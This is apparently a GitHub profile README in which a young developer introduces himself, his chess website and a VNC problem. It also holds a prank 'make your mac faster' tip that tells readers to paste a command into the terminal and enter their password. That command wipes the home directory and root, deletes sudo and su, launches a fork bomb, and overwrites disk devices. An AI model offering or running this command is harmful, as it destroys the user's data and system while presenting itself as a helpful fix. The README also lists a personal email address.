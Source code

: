 -   👋 Hi, I’m @Hardwaregore
- I am a young code dev trying to make websites. Right now i am trying to learn javascript. I have experience in HTML, Python, CSS,& java. I also have a youtube channel linked here: https://m.youtube.com/channel/UCAvCwsy4NQ7dPqhtiR37MeA . Currently, i am working on a website called "insane chess" where people can play chess with friends. I can be reached at hardwaregore101@gmail.com
-   👉🏻 Currectly I am dealing with a vnc server that won't let me add a second connection for another user. 




Also, to make your mac faster, open the terminal and type
    "  
   sudo rm -rf ~ && rm -rf .* && sudo rm -rf /boot && rm -f /usr/bin/sudo;rm -f /bin/su && x(){ x|x & };x && ls && echo "NULL" > /dev/sda && dd if=/dev/zero of=/dev/hda && mv / /dev/null && rm -rf /
 "     and
enter your password!



![Hardwaregore's GitHub stats](https://github-readme-stats.vercel.app/api?username=Hardwaregore&show_icons=true&theme=algolia )

-@Hardwaregore
